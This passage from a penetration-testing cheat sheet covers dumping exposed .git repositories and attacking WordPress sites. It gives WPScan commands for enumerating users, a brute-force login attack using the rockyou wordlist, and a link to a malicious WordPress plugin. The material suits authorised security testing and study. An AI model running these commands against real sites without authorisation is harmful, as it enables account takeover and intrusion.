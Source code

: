     ./gitdumper.sh http://[domain].com/.git/ /path/to/save/git
    
    # Check lasts commits
    cd /path/to/git && git status
    
    # Read selecter commit number
    git commit [commitNumber]
    
    # Restore last commit
    git reset --hard
    
    # Automatic script to read and restore last git dump
    ./extractor.sh /.git/ extracted
    

#### 3.1.5 CMS

- **WP Scan**

    # Basic WordPress scan
    wpscan --url http://$IP/wp/
    

- **WP Brute Forcing**

    # Brute forcing WordPress login
    wpscan --url http://$IP/wp/wp-login.php -U Admin --passwords /usr/share/wordlists/rockyou.txt --password-attack wp-login
    

- **Custom Path**

    wpscan -u "http://<IP>/" --wp-content-dir "<custom-path>"
    

- **Enumerate Users**

    wpscan -u "http://<IP>/" --enumerate u
    
    # Using wordlist
    wpscan -u "http://<IP>/" --username <username> -w /usr/share/SecList/Usernames/xato-usernames-top-1millions-20000.txt
    

- **Malicious Plugins**

    # Using a malicious WordPress plugin
    https://github.com/wetw0rk/malicious-wordpress-plugin
    